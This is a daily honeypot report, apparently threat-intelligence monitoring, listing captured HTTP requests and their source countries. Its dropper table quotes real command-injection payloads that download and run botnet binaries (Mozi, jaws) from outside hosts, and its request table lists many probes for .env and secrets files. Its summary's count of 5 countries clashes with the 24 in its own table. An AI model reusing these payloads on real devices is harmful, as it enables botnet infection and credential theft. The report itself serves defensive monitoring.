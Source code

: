 ```yaml
---
title: "Report: 2025-08-23 "
date: 2025-08-23
desciption: "Report: 2025-08-23" 
tags: [repport, daily]
---
```



# Daily Report: 2025-08-23 
# Executive summary
interaction report on http service of various Hhoneypot around the world. 

- [Executive summary](#executive_summary)
- [OT report simplified](#ot_simplified_report)
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## executive_summary

In today’s repport, we detected 5 stage 1 IP address(es), linked to 5 dropper URL(s).  

There are 45 new requests that have never been observed before (these were added to the monitored [request database.](https://blog.shoggoth.industries/database/request_database/)).  

A total of 836 requests were recorded during the day, originating from 5 different countries, with a peak of 418 requests coming from GB.


## ot_simplified_report
simplified report for medium-level interactions with honeypots that mimic industrial systems (web site loading, or interactions with the website), for more contact us on social@shoggoth.industries.
| source_country   | targeted_country   |
|:-----------------|:-------------------|
| GB               | Germany            |
| US               | Dubai              |
| GB               | Dubai              |

## botnet_dropper_behaviour
| remote_addr     | request                                                                                                                                                                     |
|:----------------|:----------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 156.192.180.249 | GET /shell?cd+/tmp;rm+-rf+*;wget+ 213.209.150.159/jaws;sh+/tmp/jaws HTTP/1.1                                                                                                |
| 45.156.87.165   | GET /proxy.cgi?chk&url=%3Bwget%20-qO-%20http%3A%2F%2F74.194.191.52%2Frondo.hsg.sh%7Csh%3B HTTP/1.1                                                                          |
| 45.156.87.165   | GET /goform/SystemCommand?command=busybox%20wget%20-qO-%20http%3A%2F%2F74.194.191.52%2Frondo.qyz.sh%7Csh HTTP/1.1                                                           |
| 120.86.255.9    | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://192.168.1.1:8088/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0   |
| 122.97.209.152  | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://102.33.10.58:51278/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0 |

## request

The list of requests presented here are those that have not yet been yet integrated into the [request database.](https://blog.shoggoth.industries/database/request_database/)

|     |   number_of_occurence | request                                       |
|----:|----------------------:|:----------------------------------------------|
|  18 |                     3 | POST /goform/SystemCommand HTTP/1.1           |
| 165 |                     2 | GET /poc/system/serviceInfo.json?v=1 HTTP/1.1 |
| 168 |                     2 | CONNECT 196.251.66.3:80 HTTP/1.0              |
| 174 |                     2 | \x04\x01\x00P\xC4\xFBB\x03\x00                |
| 216 |                     1 | GET /config/.env.staging HTTP/1.1             |
| 217 |                     1 | GET /config/.env.testing HTTP/1.1             |
| 218 |                     1 | GET /config/.env.example HTTP/1.1             |
| 221 |                     1 | GET /config/.env.template HTTP/1.1            |
| 222 |                     1 | GET /config/.env.sample HTTP/1.1              |
| 223 |                     1 | GET /config/.env.tmp HTTP/1.1                 |
| 226 |                     1 | GET /src/config/.env HTTP/1.1                 |
| 227 |                     1 | GET /src/env/.env HTTP/1.1                    |
| 234 |                     1 | GET /temp/env/.env HTTP/1.1                   |
| 245 |                     1 | GET /laravel/.env.example HTTP/1.1            |
| 246 |                     1 | GET /laravel/config/.env HTTP/1.1             |
| 247 |                     1 | GET /laravel/storage/.env HTTP/1.1            |
| 249 |                     1 | GET /django/settings/.env HTTP/1.1            |
| 250 |                     1 | GET /django/config/.env HTTP/1.1              |
| 253 |                     1 | GET /rails/config/.env HTTP/1.1               |
| 254 |                     1 | GET /php/.env HTTP/1.1                        |
| 255 |                     1 | GET /www/config/.env HTTP/1.1                 |
| 259 |                     1 | GET /k8s/secrets.env HTTP/1.1                 |
| 265 |                     1 | GET /.env.pipeline HTTP/1.1                   |
| 268 |                     1 | GET /github/workflows/.env HTTP/1.1           |
| 269 |                     1 | GET /gitlab-ci/.env HTTP/1.1                  |
| 272 |                     1 | GET /etc/environment HTTP/1.1                 |
| 273 |                     1 | GET /etc/secrets/.env HTTP/1.1                |
| 274 |                     1 | GET /usr/local/etc/.env HTTP/1.1              |
| 275 |                     1 | GET /usr/local/etc/config/.env HTTP/1.1       |
| 280 |                     1 | GET /config/secrets/.env HTTP/1.1             |
| 289 |                     1 | GET /.env-vars HTTP/1.1                       |
| 290 |                     1 | GET /.app-env HTTP/1.1                        |
| 293 |                     1 | GET /.dev-env HTTP/1.1                        |
| 294 |                     1 | GET /myplms/public HTTP/1.1                   |
| 295 |                     1 | GET /api/myplms/public HTTP/1.1               |
| 296 |                     1 | GET /api/myplms/auth/login HTTP/1.1           |
| 297 |                     1 | GET /api/myplms/users HTTP/1.1                |
| 298 |                     1 | GET /api/myplms/courses HTTP/1.1              |
| 299 |                     1 | GET /api/myplms/settings/info.php HTTP/1.1    |
| 300 |                     1 | GET /phpunit.xml HTTP/1.1                     |
| 301 |                     1 | GET /supervisor-example.conf HTTP/1.1         |
| 312 |                     1 | GET /.env.lock HTTP/1.1                       |
| 374 |                     1 | GET /.blog HTTP/1.1                           |
| 381 |                     1 | GET http://www.serv00.com HTTP/1.1            |
| 382 |                     1 | HEAD http://www.serv00.com HTTP/1.1           |

## country_iso_code

|    |   number_of_occurence | country_iso_code   |
|---:|----------------------:|:-------------------|
|  0 |                   418 | GB                 |
|  1 |                   158 | NL                 |
|  2 |                    79 | BG                 |
|  3 |                    62 | US                 |
|  4 |                    31 | ZA                 |
|  5 |                    14 | SC                 |
|  6 |                    14 | DE                 |
|  7 |                     9 | KR                 |
|  8 |                     6 | UA                 |
|  9 |                     6 | RU                 |
| 10 |                     6 | JP                 |
| 11 |                     6 | SG                 |
| 12 |                     6 | TR                 |
| 13 |                     5 | LT                 |
| 14 |                     4 | IR                 |
| 15 |                     2 | CN                 |
| 16 |                     2 | PT                 |
| 17 |                     2 | HK                 |
| 18 |                     1 | ES                 |
| 19 |                     1 | BR                 |
| 20 |                     1 | EG                 |
| 21 |                     1 | BE                 |
| 22 |                     1 | FR                 |
| 23 |                     1 | SE                 |
